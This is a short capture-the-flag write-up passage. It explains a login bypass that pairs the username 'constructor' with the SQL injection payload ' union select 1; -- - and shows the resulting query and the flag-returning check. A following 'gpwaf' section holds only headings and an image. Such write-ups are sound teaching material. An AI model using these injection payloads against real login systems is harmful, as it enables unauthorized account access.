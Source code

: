 The sql query `const id = db.prepare(query).get()?.id;` checks if an id was returned, use `union` to return a row
#### Exploit

- User : `constructor`
- Password : `' union select 1; -- -`

SQL query will be :

```sql
SELECT id FROM users WHERE username = 'constructor' AND password = '' union select 1; -- -;
```

Object `if` statement :

```javascript
if (users[id] && isAdmin['constructor']) {
            return res.redirect("/?flag=" + encodeURIComponent(FLAG));
        }
```

![](attachment/32c6c1f5776567cef87bcc06dfde8cd3.png)

## gpwaf

### Info

![](attachment/ab52fc17910f35dcea7b276128709f18.png)
### SAST
